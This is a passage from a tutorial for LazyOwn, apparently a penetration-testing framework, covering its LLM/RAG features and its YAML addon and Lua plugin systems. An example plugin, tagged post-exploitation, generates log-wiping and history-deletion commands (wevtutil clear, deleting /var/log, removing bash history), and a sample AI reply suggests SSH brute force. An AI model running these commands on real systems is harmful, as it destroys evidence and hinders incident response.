    *Explanation:* The RAGManager class handles taking file content, breaking it into pieces (`chunks`), converting those pieces into numerical representations (`embeddings`) using the LLM's embedding model, and storing them in a special database (`Chroma`). When a question comes in, it converts the question into an embedding, finds the closest matching chunk embeddings in the database (`retriever.invoke`), retrieves the original text of those chunks, and includes that text as `Context` in the final prompt sent to the LLM.

5.  **Background Monitoring (`LazySentinel`):** The `lazy_sentinel4.py` script (`LazySentinel`) is designed to run in the background and automatically watch directories (like `sessions/`) for new or modified files (`watchdog.observers`). When it detects a relevant file change, it can automatically trigger the RAG process (`rag_manager.process_file_to_rag`) to add the new data to the knowledge base and/or analyze the file content using the LLM and trigger a popup notification in the main CLI.

    ```python
    # Simplified concept from lazy_sentinel4.py
    import time
    from watchdog.observers import Observer
    from watchdog.events import FileSystemEventHandler
    from pathlib import Path

    class LazySentinelHandler(FileSystemEventHandler):
        def __init__(self, sentinel_instance):
            self.sentinel = sentinel_instance

        def on_created(self, event):
            if not event.is_directory:
                file_path = Path(event.src_path)
                if self.sentinel.is_text_file(file_path): # Check if it's a text/log/scan file
                    # Process file (add to RAG, analyze)
                    self.sentinel.process_file(file_path)

        def on_modified(self, event):
             # Similar logic as on_created to process modified files
             pass

    # In the LazySentinel class __init__:
    # self.observer = Observer()
    # self.handler = LazySentinelHandler(self)
    # self.observer.schedule(self.handler, str(self.watch_dir), recursive=False) # Watch sessions/ directory
    # self.observer.start() # Start the monitoring in a separate thread
    ```
    *Explanation:* Using the `watchdog` library, LazySentinel sets up an observer to watch the filesystem. When the observer detects a file being created or modified in the watched directory, it triggers the `on_created` or `on_modified` methods in the handler. These methods then tell the `LazySentinel` instance to process the specific file, which involves adding it to the RAG knowledge base and potentially analyzing it with the LLM.

This combination of components allows LazyOwn to continuously learn from the data you collect and provide intelligent assistance.

## Using AI Integration in LazyOwn

LazyOwn provides several ways to interact with its AI capabilities:

1.  **Background Monitoring (LazySentinel):** As described above, LazySentinel runs automatically when started (possibly in a separate tmux pane by `fast_run_as_r00t.sh` or `entrypoint.sh`). It monitors `sessions/` and will pop up alerts with analysis and command suggestions when new relevant files (like scan outputs or logs) are saved. You can manage its behavior using commands like `rag_toggle` in the `LazySentinel`'s own CLI pane.
2.  **Direct AI Commands (e.g., `vulns`, `rag_query`):** You can directly invoke AI analysis or query the RAG knowledge base from the main LazyOwn CLI (or possibly a dedicated AI pane).
    *   The `vulns` command (seen in [Chapter 5: Documentation & Reporting](05_documentation___reporting_.md) and backed by `lazygptvulns.py`) is a prime example. You might run it with a file path:

        ```bash
        ┌─[LazyOwn👽192.168.1.10/kali]
        └╼ # vulns sessions/scan_discovery_192.168.1.10.xml
        ```
        *Explanation:* This command tells LazyOwn to take the specified Nmap output file, feed it to the `lazygptvulns.py` script (which formats the prompt and calls the LLM), and display the AI's analysis, suggested vulnerabilities, and action plan directly in your CLI.

    *   From the `LazySentinel`'s own CLI (which might be running in a separate pane), you have specific RAG commands (as seen in `lazy_sentinel4.py`'s `App` class which uses `cmd2`):

        ```bash
        LazySentinel> rag_status
        ```
        *Expected Output:*
        ```
        LazySentinel> rag_status
        RAG Knowledge Base Status:
          status: Active
          document_count: 50
          persist_dir: ./persistent_chroma_db
          embedding_cache_size: 100
          query_cache_size: 50
        Auto-RAG enabled: True
        ```
        *Explanation:* This command shows you information about the RAG system: if the knowledge base is built, how many document chunks it contains, where it's stored, cache sizes, and if automatic monitoring (`Auto-RAG`) is active.

        ```bash
        LazySentinel> rag_query "What services did the scan on 192.168.1.10 find and are there any common vulnerabilities?"
        ```
        *Expected Output (example):*
        ```
        LazySentinel> rag_query "What services did the scan on 192.168.1.10 find and are there any common vulnerabilities?"
        Querying RAG knowledge base...

        RAG Response:
        Based on the Nmap scan of 192.168.1.10, the following services were found:
        - Port 22/tcp: OpenSSH 8.2p1
        - Port 80/tcp: Apache httpd 2.4.41
        - Port 443/tcp: Apache httpd 2.4.41

        Common vulnerabilities for OpenSSH 8.2p1 might include certain authentication bypass issues or information leaks, although this version is relatively modern. For Apache httpd 2.4.41, potential vulnerabilities could relate to specific configurations or modules enabled, such as denial-of-service issues or less commonly, remote code execution depending on the exact build and installed modules. It is recommended to check CVE databases for specific vulnerabilities affecting these exact versions.

        Suggested next steps:
        - Perform targeted vulnerability scanning on ports 22, 80, and 443.
        - Attempt brute-force attacks on the SSH service if policy allows.
        - Enumerate web directories on the Apache service using tools like Gobuster.
        ```
        *Explanation:* You ask a question about the data in your `sessions/` directory using the `rag_query` command. The RAG system retrieves relevant parts of the scan file from its knowledge base, sends them to the LLM along with your question, and presents the AI's answer, drawing directly from the data it has access to.

Other commands like `rag_add` and `rag_bulk_add` allow you to manually add files or entire directories to the RAG knowledge base if automatic monitoring isn't sufficient or if you have files outside the watched directory.

## Under the Hood: Processing Flow for Scan Analysis

Let's visualize the flow when you run a command like `vulns <nmap_file>`:


*Explanation:* You initiate the command. The command handler reads the specified file. It then calls a dedicated AI script (like `lazygptvulns.py`), passing the file content and session context. The AI script formats the prompt, sends it to the LLM API, gets the response, and passes it back to the command handler, which displays the results to you.

This highlights that AI integration in LazyOwn can happen in two main ways: as a background process (LazySentinel monitoring files) or as a direct command you invoke on specific data.

## Conclusion

In this chapter, you learned how LazyOwn integrates **AI** using **Large Language Models (LLMs)** to help you manage and analyze the data collected during penetration testing. You saw how it connects to LLMs like DeepSeek (via Ollama) and Llama3 (via Groq API), how it prepares contextual prompts using your session data and collected files, and how it processes the AI's responses. You also learned about the **RAG (Retrieval Augmented Generation)** system in `LazySentinel` for building a knowledge base from your session files and querying it, and how `LazySentinel` can monitor files in the background to provide proactive alerts and suggestions. Finally, you saw how specific commands like `vulns` leverage AI for task-specific analysis like processing scan results.

You now understand how LazyOwn can use AI to act as an intelligent co-pilot, automating analysis and suggesting actions based on your gathered information. While many core capabilities are built-in, LazyOwn is also designed to be extended.

In the next chapter, [Chapter 8: Addon & Plugin System](08_addon___plugin_system_.md), you'll discover how you can add new features, tools, and even AI interactions to LazyOwn by creating or importing Addons and Plugins.

Let's move on to [Chapter 8: Addon & Plugin System](08_addon___plugin_system_.md)!

# Chapter 8: Addon & Plugin System

Welcome back to the LazyOwn tutorial! We've covered a lot of ground, from getting LazyOwn set up ([Chapter 1: Deployment & Setup](01_deployment___setup_.md)) and using its Command Line Interface ([Chapter 2: CLI Framework](02_cli_framework_.md)) to working with Modules and Commands ([Chapter 3: Modules___Commands.md]), managing Parameters and Sessions ([Chapter 4: Parameters___Session_Management.md)), documenting your work ([Chapter 5: Documentation___Reporting.md)), understanding the C2 Infrastructure ([Chapter 6: C2_Infrastructure.md)), and even using AI Integration ([Chapter 7: AI_Integration.md)).

LazyOwn is already a powerful toolkit with many built-in capabilities. But what if you need to use a very specific external tool that's not included? Or maybe you have a custom script you wrote that performs a unique task? You don't want to modify LazyOwn's core code every time you need something new.

This is where the **Addon & Plugin System** shines!

Think of LazyOwn as your operating system (like Windows, macOS, or Linux). The core features we've discussed are like the programs that come pre-installed. The Addon & Plugin system is like the **app store** that lets you download and install *new* applications or extensions to add features you need, without changing the core system.

The Addon & Plugin system allows you to extend LazyOwn's capabilities dynamically by adding new commands or modifying behavior using external configuration files or scripts.

LazyOwn offers two main ways to do this:

1.  **YAML Addons (`lazyaddons/`):** A simple, declarative way to integrate existing external tools into the LazyOwn CLI by describing them in a YAML configuration file.
2.  **Lua Plugins (`plugins/`):** A more flexible system that lets you write custom logic and commands using the Lua scripting language.

Both systems register new commands with LazyOwn's CLI Framework ([Chapter 2: CLI Framework](02_cli_framework_.md)), making them available just like any built-in command.

## Use Case: Adding a Custom Tool or Script

Let's say you have a specific Python script (`my_custom_recon.py`) that does some unique web reconnaissance, or perhaps you want to easily run a standard system command like `grep` with specific options directly from the LazyOwn prompt. Or maybe you have a Lua script that generates a complex payload you use often.

The Addon & Plugin system lets you turn these into LazyOwn commands like `my_recon target.com` or `grep_logs "error"` or `generate_payload windows`.

## YAML Addons: Wrapping External Tools

The YAML Addon system (`lazyaddons/`) is perfect for when you want to add an existing command-line tool or script to LazyOwn. You don't need to write any new code in Python or Lua; you just need to describe the tool and how to run it using a simple YAML file.

LazyOwn reads YAML files placed in the `lazyaddons/` directory. Each YAML file defines one or more commands that become available in the CLI.

Look at the `lazyaddons/README.md` file. It explains the structure of a YAML addon file.

Here's a simplified example based on `lazyaddons/example.yaml` and the README:

```yaml
# lazyaddons/my_tool_addon.yaml
name: "mytool"            # The command you type in LazyOwn: 'mytool'
enabled: true             # Set to false to disable this addon
description: "Runs my custom external tool." # Shown with 'help mytool'

tool:
  name: "My Custom Tool"  # Full name (optional)
  repo_url: "https://github.com/your/my_tool.git" # Optional: LazyOwn can clone it
  install_path: "tools/my_tool" # Optional: Where to clone the tool
  execute_command: "python {install_path}/my_tool.py --target {url}" # Command to run!

params:
  - name: "url"           # Define a parameter named 'url'
    required: true        # Is this parameter required? Yes.
    description: "The target URL for the tool." # Help text for this parameter
    # default: "http://default.com" # Optional default value
```

*Explanation:* This YAML file tells LazyOwn how to create a new command called `mytool`.

*   `name`: This is the command you will type in the LazyOwn CLI.
*   `description`: This text will appear when you type `help mytool`.
*   `tool.execute_command`: This is the actual command that LazyOwn will run on your system when you type `mytool`.
*   `tool.repo_url` and `tool.install_path`: If specified, LazyOwn can automatically clone the tool's repository if it's not found, handling the setup for you (similar to how `install.sh` works for core dependencies).
*   `params`: This section defines inputs the command needs. Here, it defines a required parameter named `url`.

The key part is `execute_command: "python {install_path}/my_tool.py --target {url}"`. When you run the `mytool` command in LazyOwn and provide a value for the `url` parameter, LazyOwn will substitute `{url}` with the value you provided (or a default/session value, as described in [Chapter 4: Parameters___Session_Management.md)) and `{install_path}` with the tool's installation directory, then execute that command string on your system.

**Using the YAML Addon:**

1.  Save the YAML content above as `lazyaddons/my_tool_addon.yaml`.
2.  Make sure your external tool (`my_tool.py` in this example) is either in the specified `install_path` or LazyOwn can clone it.
3.  Restart LazyOwn (so it reads the new addon file).
4.  In the LazyOwn CLI, type `help mytool`:

    ```bash
    ┌─[LazyOwn👽10.0.0.1/kali]
    └╼ # help mytool
    ```

    *Expected Output:*
    ```
    ┌─[LazyOwn👽10.0.0.1/kali]
    └╼ # help mytool
    mytool
      Runs my custom external tool.

    Usage: mytool [options]

    Options:
      -u, --url  The target URL for the tool. (Required)
    ```
    *Explanation:* LazyOwn's `cmd2` framework ([Chapter 2: CLI Framework](02_cli_framework_.md)) automatically generated this help text from your YAML `description` and `params` sections. It even knows `url` is required and can be specified with `-u`.

5.  Run the command, providing the required parameter:

    ```bash
    ┌─[LazyOwn👽10.0.0.1/kali]
    └╼ # mytool -u http://example.com
    ```

    *What happens:* LazyOwn finds the `mytool` command registered by your YAML addon. It parses your input, identifies that the `url` parameter's value is `http://example.com`. It then takes the `execute_command` string from the YAML (`"python {install_path}/my_tool.py --target {url}"`) and replaces `{url}` with `http://example.com` (and `{install_path}` with `tools/my_tool`). Finally, it executes the resulting command: `python tools/my_tool/my_tool.py --target http://example.com` on your system, streaming the output back to your LazyOwn terminal.

This system makes it incredibly easy to wrap any command-line tool and make it a native LazyOwn command without writing Python or Lua code.

**Under the Hood: YAML Addon Loading**


*Explanation:* During startup, LazyOwn scans the `lazyaddons/` directory, reads each YAML file, and uses an internal Addon Loader to parse the configuration. For each valid addon defined in the YAML, it registers a new command with the `cmd2` framework, making it available for the user to type.

## Lua Plugins: Writing Custom Logic

The Lua Plugin system (`plugins/`) is for when you need more than just wrapping an external tool. It allows you to write custom scripts in the Lua programming language that can interact more directly with the LazyOwn environment (like accessing parameters).

LazyOwn executes Lua scripts located in the `plugins/` directory when it starts. These scripts then tell LazyOwn which functions to expose as commands using the `register_command` function.

Look at the `plugins/README.md` and `plugins/init_plugins.lua`. The `init_plugins.lua` script is the main entry point for loading Lua plugins. It uses a Python function (`list_files_in_directory`) to get a list of files in the `plugins/` directory and then loads and runs each Lua file (that doesn't end with `.yaml` or is not `init_plugins.lua`).

Let's look at an example based on the provided `plugins/generate_cleanup_commands.yaml` and the Lua plugin structure described in `plugins/README.md`.

First, the YAML metadata file (`plugins/generate_cleanup_commands.yaml`):

```yaml
name: generate_cleanup_commands # The command you type: 'generate_cleanup_commands'
description: >
  Generates cleanup commands for Windows or Linux systems based on user-specified arguments.
  It can clean event logs, temporary files, shell histories, or perform full system cleanup.
  Supports optional customization like targeting specific log files or user histories.
author: "LazyOwn RedTeam"
version: "1.0"
enabled: true
tags:
  - cleanup
  - post-exploitation
  - system-maintenance
  - logs
params:
  - name: os # Required parameter 'os'
    type: string
    required: true
    description: Target operating system for cleanup. Must be either 'windows' or 'linux'.
  - name: type # Required parameter 'type'
    type: string
    required: true
    description: Type of cleanup to perform. Options are 'logs', 'temp', 'history', or 'all'.
  - name: log_name # Optional parameter 'log_name'
    type: string
    required: false
    description: Specific log name(s) to target. Useful when cleaning particular event logs or Linux log files.
  - name: user # Optional parameter 'user'
    type: string
    required: false
    description: Specific user whose shell history should be cleaned (only applicable for Linux 'history' cleanup).
permissions:
  - needs_file_write # Metadata about needed permissions
  - needs_sudo_optional
requires_root: false # Metadata: does this plugin need root?
dependencies: []
outputs:
  - text: cleanup commands ready to be executed manually or automatically # Metadata about output
```
*Explanation:* This YAML describes a command `generate_cleanup_commands`. It requires `os` and `type` parameters and has optional `log_name` and `user` parameters. The YAML primarily serves for documentation (`help`) and potentially for internal LazyOwn logic that uses this metadata (like permission checks, although the code snippet doesn't explicitly show this).

Now, the Lua script (`plugins/generate_cleanup_commands.lua` - conceptual, based on README structure):

```lua
-- plugins/generate_cleanup_commands.lua

-- The main function that will be registered as a command
function generate_cleanup_commands()
    -- Access parameters set by the user or from session ([Chapter 4: Parameters___Session_Management.md])
    local target_os = app.params["os"]
    local cleanup_type = app.params["type"]
    local log_name = app.params["log_name"] -- This will be nil if not set
    local user = app.params["user"]     -- This will be nil if not set

    -- Step 1: Validate parameters (as per README guide)
    if target_os ~= "windows" and target_os ~= "linux" then
        return "Error: 'os' must be 'windows' or 'linux'."
    end

    if cleanup_type ~= "logs" and cleanup_type ~= "temp" and cleanup_type ~= "history" and cleanup_type ~= "all" then
         return "Error: 'type' must be 'logs', 'temp', 'history', or 'all'."
    end

    -- Step 2: Implement main logic to generate commands based on parameters
    local commands = {}

    if target_os == "windows" then
        if cleanup_type == "logs" or cleanup_type == "all" then
             if log_name then
                table.insert(commands, "wevtutil cl " .. log_name)
             else
                table.insert(commands, "wevtutil el | foreach-object { wevtutil cl \"$_\" }") -- Example PowerShell
             end
        end
        if cleanup_type == "temp" or cleanup_type == "all" then
            table.insert(commands, "del /q /f %TEMP%\\*.*")
        end
        -- Windows history cleanup is complex, maybe add a note
        if cleanup_type == "history" then
             table.insert(commands, "Note: Manual cleanup or specific tools required for Windows history.")
        end
    elseif target_os == "linux" then
        if cleanup_type == "logs" or cleanup_type == "all" then
            if log_name then
                table.insert(commands, "sudo rm -rf /var/log/" .. log_name)
            else
                 table.insert(commands, "sudo find /var/log -type f -delete")
                 table.insert(commands, "sudo history -c")
            end
        end
        if cleanup_type == "temp" or cleanup_type == "all" then
            table.insert(commands, "sudo rm -rf /tmp/* /var/tmp/*")
        end
        if cleanup_type == "history" or cleanup_type == "all" then
            local history_file = "~/.bash_history" -- Default bash history
            if user then
                -- Need to find history file for specific user
                history_file = "/home/" .. user .. "/.bash_history" -- Simplified path
            end
            table.insert(commands, "sudo rm -f " .. history_file)
            table.insert(commands, "sudo echo '' > " .. history_file) -- Clear and recreate
        end
    end

    -- Step 3: Return a clear message with the generated commands
    local output_message = "Generated cleanup commands for " .. target_os .. " (" .. cleanup_type .. "):\n"
    if #commands > 0 then
        for _, cmd in ipairs(commands) do
            output_message = output_message .. "- " .. cmd .. "\n"
        end
    else
        output_message = output_message .. "No commands generated for the specified type and OS.\n"
    end

    return output_message
end

-- Register the function as a command
-- The name matches the 'name' field in the YAML file for consistency
register_command("generate_cleanup_commands", generate_cleanup_commands)
```
*Explanation:* This Lua script defines a function `generate_cleanup_commands` which takes no arguments directly but accesses parameters like `os` and `type` using `app.params["parameter_name"]` (where `app.params` is a table/dictionary provided by LazyOwn to the Lua environment). It validates inputs, builds a list of system commands based on the inputs, formats them into a string, and returns the string. The `register_command("generate_cleanup_commands", generate_cleanup_commands)` line tells LazyOwn that typing `generate_cleanup_commands` in the CLI should execute this specific Lua function.

**Using the Lua Plugin:**

1.  Save the YAML content as `plugins/generate_cleanup_commands.yaml`.
2.  Save the Lua code as `plugins/generate_cleanup_commands.lua`.
3.  Restart LazyOwn.
4.  In the LazyOwn CLI, type `help generate_cleanup_commands`:

    ```bash
    ┌─[LazyOwn👽10.0.0.1/kali]
    └╼ # help generate_cleanup_commands
    ```

    *Expected Output:* LazyOwn uses the YAML file to show the description and parameters.
    ```
    ┌─[LazyOwn👽10.0.0.1/kali]
    └╼ # help generate_cleanup_commands
    generate_cleanup_commands
      Generates cleanup commands for Windows or Linux systems based on user-specified arguments.
      It can clean event logs, temporary files, shell histories, or perform full system cleanup.
      Supports optional customization like targeting specific log files or user histories.

    Usage: generate_cleanup_commands [options]

    Options:
      -o, --os     Target operating system for cleanup. Must be either 'windows' or 'linux'. (Required)
      -t, --type   Type of cleanup to perform. Options are 'logs', 'temp', 'history', or 'all'. (Required)
      -l, --log_name  Specific log name(s) to target. Useful when cleaning particular event logs or Linux log files.
      -u, --user   Specific user whose shell history should be cleaned (only applicable for Linux 'history' cleanup).
    ```
    *Explanation:* The help text comes from your YAML file. LazyOwn maps the parameter names to short flags (`-o`, `-t`, etc.).

5.  Run the command, setting the required parameters (using `set` from [Chapter 4: Parameters___Session_Management.md) or providing them directly):

    ```bash
    ┌─[LazyOwn👽10.0.0.1/kali]
    └╼ # set os linux
    ┌─[LazyOwn👽10.0.0.1/kali]
    └╼ # set type all
    ┌─[LazyOwn👽10.0.0.1/kali]
    └╼ # generate_cleanup_commands
    ```
    *What happens:* LazyOwn finds the `generate_cleanup_commands` command registered by the Lua plugin. It calls the `generate_cleanup_commands()` function in your Lua script. The Lua script reads the `os` ("linux") and `type` ("all") parameters from `app.params`, generates the corresponding Linux cleanup commands, and returns the formatted string. LazyOwn then prints this returned string to your terminal.

    Alternatively, you could pass parameters directly when running the command (as suggested by the `help` output):

    ```bash
    ┌─[LazyOwn👽10.0.0.1/kali]
    └╼ # generate_cleanup_commands --os windows --type logs --log_name Security
    ```
    *What happens:* LazyOwn parses the arguments, updates the relevant parameters (`os`="windows", `type`="logs", `log_name`="Security"), then calls the Lua function. The Lua function reads these updated parameters and generates the Windows command to clean the "Security" log.

This system allows you to write more complex logic in Lua and expose it as custom commands.

**Under the Hood: Lua Plugin Loading**


*Explanation:* During startup, LazyOwn initializes a Lua environment and runs `init_plugins.lua`. This script finds other Lua files in the `plugins/` directory, loads them, and executes them. Each loaded plugin script executes its `register_command` calls, which communicate back to the Python side of LazyOwn to register the new command handler (the Lua function) with the `cmd2` framework. The corresponding YAML files are likely read separately by the Python side to get metadata for documentation and parameter parsing.

## Comparing Addons and Plugins

Here's a quick comparison of the two systems:

| Feature           | YAML Addons (`lazyaddons/`)                         | Lua Plugins (`plugins/`)                                |
| :---------------- | :-------------------------------------------------- | :------------------------------------------------------ |
| **Purpose**       | Integrate *external command-line tools*.            | Add *custom logic and scripts*.                         |
| **Language**      | Configuration in YAML; tool can be any language.    | Logic written in Lua scripting language.                |
| **Configuration** | YAML file defining tool path, command string, params.| Lua script defines logic; YAML file for metadata/docs.  |
| **Complexity**    | Simple wrapper for existing tools.                  | More flexible for custom tasks.                         |
| **Interaction**   | Passes parameters as command-line arguments to tool.| Accesses parameters via `app.params` within Lua script. |
| **Auto-Setup**    | Can auto-clone tool repos.                          | Relies on Lua scripts being present; dependencies listed in YAML. |

Both systems achieve the goal of adding new commands to the LazyOwn CLI, but they cater to different needs: wrapping external tools vs. writing custom internal logic.

## How to Add Your Own Addon or Plugin

The process is straightforward:

1.  Decide if you need to wrap an external tool (YAML Addon) or write custom logic (Lua Plugin).
2.  If YAML Addon:
    *   Create a new YAML file (e.g., `my_new_tool.yaml`) in the `lazyaddons/` directory.
    *   Define the `name`, `description`, `tool.execute_command`, and any `params`. Optionally add `tool.repo_url` and `tool.install_path` if LazyOwn should manage the tool's installation.
3.  If Lua Plugin:
    *   Create a new Lua file (e.g., `my_new_script.lua`) in the `plugins/` directory.
    *   Write your Lua function(s) with the desired logic, using `app.params` to access parameters.
    *   Add the `register_command("your_command_name", your_function_name)` call at the end of the Lua file.
    *   Create a corresponding YAML file (e.g., `my_new_script.yaml`) in the `plugins/` directory, using the template from `plugins/README.md` to define `name`, `description`, `params`, etc.
4.  Restart your LazyOwn instance.
5.  Use the `help` command (`help your_command_name`) in the LazyOwn CLI to verify that your new command is loaded and see its description and parameters.
6.  Use your new command!

This system empowers you to tailor LazyOwn to your specific needs and integrate your preferred tools and custom scripts seamlessly into your workflow.

## Conclusion

In this chapter, you learned about LazyOwn's **Addon & Plugin System**, understanding that it provides two main ways to extend LazyOwn's capabilities: **YAML Addons** for easily wrapping external command-line tools and **Lua Plugins** for adding custom scripting logic. You saw how both systems work by defining new commands and their behavior, registering them with the LazyOwn CLI, and how they utilize YAML files for configuration and documentation. You now know how to add your own tools or scripts to LazyOwn, making it a truly customizable platform for your penetration testing activities.

With the Addon & Plugin system, you have the flexibility to add virtually any capability you need to LazyOwn, from integrating niche tools to automating complex, multi-step processes with custom scripts. This concludes our deep dive into the core aspects of LazyOwn. You now have a comprehensive understanding of its setup, interface, commands, data management, C2, AI, and extensibility.